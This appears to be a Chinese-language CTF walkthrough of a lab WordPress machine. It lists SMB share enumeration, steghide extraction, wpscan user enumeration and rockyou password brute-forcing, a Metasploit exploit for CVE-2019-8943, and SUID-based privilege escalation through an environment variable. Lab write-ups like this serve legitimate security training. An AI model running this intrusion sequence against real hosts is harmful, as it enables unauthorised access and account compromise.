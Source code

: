 # recon

- set blog.thm into /etc/hosts

- nmap

![](https://hackmd.io/_uploads/BkWzQcogT.png)

# SMB
- 發現有開啟SMB，嘗試枚舉
    - `smbclient -L 10.10.14.208`

![](https://hackmd.io/_uploads/r115Ecoep.png)

- 發現有資料夾共享，叫做"BillySMB"
    - `smbclient //10.10.14.208/BillySMB`

- 進入後直接dump下來
    - `prompt off`
    - `mget *`

![](https://hackmd.io/_uploads/rk3BLcjga.png)

- 檢查圖片檔是否有用隱寫術
    - `steghide --info 檔名`

![](https://hackmd.io/_uploads/r1v1vcslT.png)

- 發現有但直接告訴你是兔子洞，還是把它提出來好了
    - `steghide extract -sf Alice-White-Rabbit.jpg`    

# web

- whatweb

![](https://hackmd.io/_uploads/SJUpD9oga.png)

![](https://hackmd.io/_uploads/H1A0P9sga.png)

- wordpress架構
    - `wpscan --url http://10.10.14.208 -e u ` --> 枚舉使用者帳號

![](https://hackmd.io/_uploads/S1E1F9sxp.png)

![](https://hackmd.io/_uploads/BkFGKcilT.png)

![](https://hackmd.io/_uploads/SkLVY9jgp.png)

- 使用wpscan進行爆破
        - wpscan --url http://10.10.14.208/ -U user.txt -P /usr/share/wordlists/rockyou.txt

![](https://hackmd.io/_uploads/BJD06cse6.png)

- 登入後進入wordpress後台

![](https://hackmd.io/_uploads/rkZWRcieT.png)

- 發現有上傳的功能

![](https://hackmd.io/_uploads/B17L1sil6.png)

- 嘗試塞reverse_shell 但都被擋了
- 想到之前wpscan掃出來是wordpress 5.0版，在exploit DB找相關的exploit，發現有CVE-2019-8943

- use msfconsole
    - set RHSOT、USERNAME、PASSWORD 
    - run
    - get meterpreter
        - shell
        - find -iname user.txt 
    ![](https://hackmd.io/_uploads/SJVLa02ga.png)
    
- 嘗試打開發現沒有辦法，只能提權了QQ 
    
# PrivESC

- `find / -perm -u=s -type f 2>/dev/null`

![](https://hackmd.io/_uploads/r1xSkJTgp.png)

- 發現有/usr/sbin/checker比較不尋常的，找GTFObins也沒有
    - ltrace /usr/sbin/checker

![](https://hackmd.io/_uploads/BktWe1pxp.png)

- `export admin=1`

![](https://hackmd.io/_uploads/H1xBeJTxp.png)









